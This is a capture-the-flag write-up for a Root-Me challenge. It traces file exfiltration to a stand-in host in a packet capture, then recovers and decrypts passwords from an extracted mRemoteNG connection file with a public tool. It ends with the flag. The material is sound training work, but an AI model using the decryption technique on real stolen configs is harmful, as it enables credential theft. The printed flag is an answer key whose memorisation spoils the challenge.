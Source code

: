 # Day 09 - The Christmas Thief

## Challenge
A colleague of yours forgot to lock his workstation during his coffee break, and when he returns he discovers that some of his files have been looked at, and maybe even stolen! He's really sad, because he had prepared some superb memes for Christmas, but more importantly, he also had sensitive information about the Root-Me infrastructure... Luckily for you, the network survey has captured what happened, so it's now your turn to find out what was stolen!

>    Author : Nishacid

## Input
- PCAP file: [the_christmas_thief.pcapng](./the_christmas_thief.pcapng)

## Analysis
We spot some `http` traffic in that `PCAP` file, especially some file exfiltration to the domain `http://naughty-santa.xmas:8080`:

![http.png](./http.png)

```
    POST /upload HTTP/1.1\r\n
    Host: naughty-santa.xmas:8080\r\n
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:133.0) Gecko/20100101 Firefox/133.0\r\n
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n
    Accept-Language: en-US,en;q=0.5\r\n
    Accept-Encoding: gzip, deflate\r\n
    Content-Type: multipart/form-data;
```

We export every file using `Wireshark` export feature and get a collection of files:

![export.png](./export.png)

Among others, we spot some exfiltrated memes:

![root-me.png](./root-me.png)

![spip.png](./spip.png)

In addition, we find an xml config file [confCons.xml](./confCons.xml). Here's the beginning:

```xml
<?xml version="1.0" encoding="utf-8"?>
<mrng:Connections xmlns:mrng="http://mremoteng.org" Name="Connections" Export="false" EncryptionEngine="AES" BlockCipherMode="GCM" KdfIterations="1000" FullFileEncryption="false" Protected="KuJgm3Hy4FXbM4GVwaJN6KiSq6sLNYN+tdrjVhQRPvXgkMuvSJLp9Au/g66czFaoLErkFWDGGCLIYwo8ReQDI5J5" ConfVersion="2.6">
(...)
```

We have credentials in that file, but they are encrypted:

```
root:XD6l5yfXJt4qrt68m2rODBDjmKoEYzxbA1k0IToc0TbqRmIvY2n0NVa98+Fe5zOEamig7UNUb3R2rQ==
challenges:OqJIc9IEBD8Q2pGWmrt/z2o+AeupVnesPQk3Mj1BANhzdP4o8jc3WV2QulpGc95WdBw+BlS72kTDrndkzQ==
nishacid:TWK/BPwZG5rXMQv0LH8mALWbdDguNCOi5UHE6oc108iLT+1V63HR/jqhq76QAkPNCm54CrLjSJPKwV4Nv+0dFKNGZeI3KO8s/oinc+wtZ7SwcqA=
```

## Solution
I use that tool at https://github.com/gquere/mRemoteNG_password_decrypt.git to decrypt them:

```console
$ python3 mremoteng_decrypt.py confCons.xml
Name: root-me prod
Hostname: 10.0.16.100
Username: root
Password: grosbisous

Name: root-me challenges
Hostname: 10.0.12.98
Username: challenges
Password: letsgrabflags

Name: root-me v2
Hostname: 10.1.13.37
Username: nishacid
Password: RM{R3m0t3_cLi3Nt_4r3_n0t_S0_s3cur3}

```

## Flag
> RM{R3m0t3_cLi3Nt_4r3_n0t_S0_s3cur3}
